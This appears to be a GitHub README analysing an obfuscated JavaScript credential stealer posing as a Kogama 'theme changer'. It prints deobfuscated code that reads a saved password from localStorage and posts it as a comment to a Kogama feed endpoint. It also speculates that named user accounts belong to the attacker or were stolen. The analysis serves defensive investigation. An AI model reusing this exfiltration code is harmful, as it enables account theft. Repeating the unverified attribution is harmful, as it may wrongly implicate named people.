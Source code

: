 # Malware Sample Analysis: Obfuscated JavaScript Payload

## Overview
This repository contains an analysis of a malicious JavaScript sample found on Pastebin, which masquerades as a benign "theme changer" utility. The script is heavily obfuscated and exhibits clear malicious behavior.

⚠️ **Warning**: Do not execute this script outside of a controlled sandbox environment.

## Sample Information
- **Source**: [Pastebin Link](https://pastebin.com/raw/UqK3rjrA)
- **Claimed Function**: Theme changer utility
- **Actual Behavior**: Malicious payload (analysis ongoing)

## Indicators of Compromise
The script exhibits several red flags:

1. **Suspicious Attribution**
   - Unknown author ("Lavar") with no verifiable identity
   - No legitimate project homepage or documentation

2. **Obfuscation Techniques**
   - Heavy use of encoding and string manipulation
   - Unnecessary complexity for stated purpose
   - Obfuscated network calls

3. **Anomalous Code Patterns**
   ```javascript
   fetch('https://www.kogama.com/api/feed/31872096/comment/[...]') // A request to post a comment
   ({'comment':localStorage[_0x5acfe3(0x206)](...)})  // Accessing localStorage (saved data contents)
   const _0x1a7136=['addEventListener','getElementById','application/json','https://www.kogama.com/auth/logout'] // Getting an element by ID and logging us out
   ```

# Technical Analysis

### Initial Deobfuscation
The script employs heavy obfuscation with several immediate red flags:

```javascript
function _0x22fc() {
  const _0x1a7136 = [
    'addEventListener', 'log', 'stringify', 'location', 'status', 
    '173846mcQEUN', '9NpMVeb', 'Success:', '113830LYAXum', 'keyCode',
    'setItem', 'value', 'root-page-mobile', 'password', '71868QrEQBX',
    'getItem', 'error', '2716758eSaPId', 'catch', 'poop',
    'querySelector', 'Error:', '126544zlfMyY', 'lol', '506569BqwGkp',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-text.MuiButton-textDefault...',
    '99qjFQGn', '2MXeZit', 'then', 'getElementById', 'application/json',
    'https://www.kogama.com/auth/logout', '25vivdkf', 'json',
    "Button not found!", '768536FEIJoG', 'POST', 'click',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-contained...',
    "background-image: linear-gradient(135deg, rgb(0 137 255), rgb(0 112 255))"
  ];
  _0x22fc = function() { return _0x1a7136; };
  return _0x22fc();
}
```

###  Key Malicious Behaviors

1. **Anomalous Code Patterns**
   - Sets a localStorage variable named 'poop' to store passwords
   - Calls logout function (https://www.kogama.com/auth/logout) to force re-authentication

2. **Data Exfiltration**
   - Transmits stolen credentials as a "comment" to a fixed Kogama.com feed ID
   - You can view the current state of comments from this object [here](https://www.kogama.com/api/feed/31872096/comment/)
   - If you want to go a few steps ahead, you can compare your findings to what I've saved @ [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Lavar/Script/endpoint/comments.json)
```javascript
fetch('https://www.kogama.com/api/feed/31872096/comment/', {
  'method': _0x5acfe3(0x1f3),  // Resolves to 'POST'
  'headers': {
    'Content-Type': _0x5acfe3(0x1ed)  // Resolves to 'application/json'
  },
  'body': JSON[_0x5acfe3(0x1f9)]({  // Resolves to 'stringify'
    'comment': localStorage[_0x5acfe3(0x206)](_0x5acfe3(0x1e2))  // Gets 'password'
  })
```

As of [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Lavar/Script/endpoint/comments.json) the only accounts that have posted any comments under this specific Object are [GameCodeMaster](https://www.kogama.com/profile/670030842/) and a dummy account @ [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/). Both of those have already changed passwords which could mean two twings. 
Either the person behind this script is GameCodeMaster simply testing their own sample, or that account has been stolen because of their naive traits.
Why such theory? GameCodeMaster is an owner of 'Tester' Badge, which these days - isn't rare, but it just may be an indicator.

What of the post/feed that stores the comments? - I'm still trying to locate it, trying to finalise the investigation.
No hits in unpublished projects, deleted maps or anywhere else.
